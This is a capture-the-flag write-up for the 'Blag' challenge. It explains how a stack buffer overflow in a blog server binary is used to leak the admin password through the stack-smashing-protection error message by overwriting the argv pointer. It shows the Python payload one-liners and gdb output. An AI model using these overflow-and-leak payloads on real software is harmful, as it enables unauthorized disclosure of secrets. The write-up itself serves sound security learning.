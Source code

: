 # Blag (180 points)


###Problem overview:

  You're given a binary for a blog server that has a bug. You must exploit this bug to get the flag out of the admin's post, which the server won't let you read under normal circumstances.
  
###The process:
   I'll have to admit, this one had me stumped until the last two hours of the competition
I spent probably 5 or 6 hours in total looking at the source. I found the initial buffer overflow within about 10 minutes, but I didn't know what to do with it.
   
```C
52:  readline(buf,sizeof(p->body),stdin); //buffer overflow 320 -> 32
```
   
Despite my initial hopes, this buffer overflow proved to be useless (or did it?) due to   ProPolice Stack Smashing Protection (SSP). I'm sure a lot of you saw this:
```
*** stack smashing detected ***: ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42 terminated
```
   
   
  I gave up on this problem on the first day and came back to it with ~4 hours left in the competition. My teammates and I combed through the source again, and we concluded that the aforementioned buffer overflow was the only vulnerability in the program. I tried to overflow the buffer again, but this time with the full overflow size (320 bytes), and this time I got somthing interesting

```
$ python -c 'print "add\n" + "a\n" +"a\n" + "A"*320 + "\n"' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42

...
...


Segmentation fault (core dumped)
```

  For those of you who looked at the disassembly of the functions, this should surprise you. If the stack canary is not preserved (AKA if you overflow),then the program calls another function that aborts the program. This means that the segfault above has to have occurred somewhere in SSP's own code. Armed with this information, I got my google-fu on.
  
  I found [this pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf) from Dragon Sector, a collegiate/professional CTF team. Incidentally, it also has the solution to [oneshot](oneshot_170_pts.md) in it. As it turns out, the error message from above gets the name of the program from the `argv` variable. We can overflow the pointer to this with the pointer to some other random string that we need. Namely the admin password.
  
```
$ gdb -q ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
Reading symbols from ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42...(no debugging symbols found)...done.
gdb-peda$ p &adminpassword
$1 = (<data variable, no debug info> *) 0x804b080 <adminpassword>
gdb-peda$ q
$ $ python -c 'print "add\na\na\n"+"\x80\xb0\x04\x08"*76' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
...
...
*** stack smashing detected ***: meme terminated
```

I picked 'meme' as my local admin password, but if you tried it remotely you would get the real admin password. From there you can just authorize yourself and get the flag!!

pwned.



